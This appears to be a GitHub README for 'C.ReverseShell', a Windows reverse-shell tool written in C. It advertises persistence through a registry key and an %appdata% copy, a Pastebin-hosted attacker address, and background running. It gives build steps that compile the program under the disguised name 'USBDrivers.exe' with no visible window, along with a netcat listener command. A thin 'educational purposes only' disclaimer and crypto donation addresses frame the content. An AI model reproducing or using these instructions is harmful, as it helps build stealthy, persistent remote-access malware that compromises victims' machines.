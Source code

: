 <h1 align="center">C.ReverseShell</h1>



<p align="center">
<a href="#"><img alt="logs-ipgrabber forks" src="https://img.shields.io/github/forks/cdkw/logs-ipgrabber?style=for-the-badge"></a>
<a href="#"><img alt="logs-ipgrabber last commit (main)" src="https://img.shields.io/github/last-commit/cdkw/logs-ipgrabber/main?color=green&style=for-the-badge"></a>
<a href="#"><img alt="logs-ipgrabber Repo stars" src="https://img.shields.io/github/stars/cdkw/logs-ipgrabber?style=for-the-badge&color=yellow"></a>
<a href="#"><img alt="logs-ipgrabber License" src="https://img.shields.io/github/license/cdkw/logs-ipgrabber?color=orange&style=for-the-badge"></a>
<a href="https://github.com/cdkw/logs-ipgrabber/issues"><img alt="logs-ipgrabber issues" src="https://img.shields.io/github/issues/cdkw/logs-ipgrabber?color=purple&style=for-the-badge"></a>

<p align="center">⚠️ EDUCATIONAL PURPOSES ONLY - PLEASE READ LEGAL NOTICE ⚠️</p>
<p align="left"><img src="https://i.imgur.com/sQ8bRpe.png" alt="Image"></p>

### **💸 Features**
* Reconnection interval
* Persistence (Registry key, file copied in %appdata%)
* Pastebin IP modification
* Runs in the background


### **📜 Requirements**
* `gcc-mingw-w64` can be installed with `sudo apt install gcc-mingw-w64`
* a linux server/machine to run `nc -nlvp <port>`


### **💾 Installing and Compiling**

```shell script
git clone https://github.com/cdkw/C.ReverseShell.git
cd C.ReverseShell
```
Now go in the `creverse.c` file and modify line 11: `#define PASTEBIN_URL "https://pastebin.com/raw/ENTER_PASTEBIN_HERE"` to your raw pastebin url. (`IP:PORT`)
```sh
gcc creverse.c -o USBDrivers.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -lwininet -static-libstdc++ -static-libgcc -mwindows
```
* NOTE: To change its name from `USBDrivers.exe` to something else make sure to also modify `line 161` to match your filename.


### **⚠️ Legal notice**

This code is provided for **EDUCATIONAL PURPOSES ONLY**. It is intended to demonstrate certain programming concepts and techniques related to network communication and process control. This code should **NOT be used** for any malicious or unauthorized activities.

The author disclaims any responsibility for any misuse of this code and is not liable for any legal consequences that may arise from its use. Always ensure compliance with applicable laws and regulations when using or adapting this code. Do not hack anyone without their consent!

### **☕ Support me!**

If you want to support me, consider joining my discord or donating to my crypto wallets:
* BTC `3QMrNrzGSPunpnYirVFtKp6G4oSnJDk1oT`
* ETH `0xFD03ee7AB099223a4B33327955a9aF3dd3DCDA61`
* SOL `7HDSAnXosAWNiuBwZCv18CdWc9aZCpdNoCBKAf11C7BD`
